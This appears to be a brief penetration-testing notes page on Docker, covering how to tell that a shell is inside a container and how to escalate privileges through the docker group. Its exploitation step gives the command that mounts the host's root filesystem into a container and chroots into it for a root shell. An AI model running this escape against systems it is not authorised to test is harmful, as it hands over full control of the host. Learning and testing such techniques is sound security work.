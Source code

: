 # Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8) (1) (1).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6) (1) (1).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10) (1) (1).png>)

